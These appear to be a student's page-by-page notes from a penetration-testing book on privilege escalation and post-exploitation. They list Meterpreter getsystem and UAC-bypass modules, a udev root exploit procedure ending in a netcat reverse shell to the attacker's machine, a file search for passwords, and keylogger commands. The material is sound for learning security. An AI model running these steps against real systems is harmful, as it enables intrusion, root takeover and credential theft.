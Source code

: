 
### pg 283, 313
Getsystem - Windows privesc on Meterpreter
getsystem -h

rev2self  - revert to self, become previous user

Local Escalation Module Windows
exploit/windows/local/ms11_080_afdjoinleaf - exploits afd.sys Windows driver

### pg 285, 315
Windows UAC (user account control security feature)
UAC stops getsystem from running and giver error `Operation failed: Access is denied.`
windows/local/bypassuac
now use getsystem

### pg 287, 317
Linux Privesc
Udev - device manager, manages the device nodes in /dev directory
shell  - spawns a shell on the machine

uname -a  - Linux kernel version
lsb_release -a  - Ubuntu release version
udevadm --version  - checks udev version

### pg 288, 318
A udev exploit from regular to root
searchsploit for udev
use the /usr/share/exploitdb/platforms/linux/local/8572.c one 
Instructions for using 8572.c
 * Usage: 
 * Pass the PID of the udevd netlink socket (listed in /proc/net/netlink, 
 * usually is the udevd PID minus 1) as argv[1]. 
 * The exploit will execute /tmp/run as root so throw whatever payload you 
 * want in there.
cp the 8572.c file to /var/www on kali
wget the file on victim
compile it with gcc on victim
find PID of udev on victim
ps aux | grep udev
put a nc command to connect to kali on victim in /tmp/run
nc `kali ip` `port` -e /bin/bash
set up a nc listener on kali
nc -lvp `port`
execute the exploit with PID

### pg 291, 321
Local Info Gathering - find information from inside the system
Type exit if in shell session to go back to Meterpreter
In Meterpreter search -f *password*
In Meterpreter keyscan_start - start key logger
keyscan_dump - dumps key log into stdout?
keyscan_stop - stop key logger
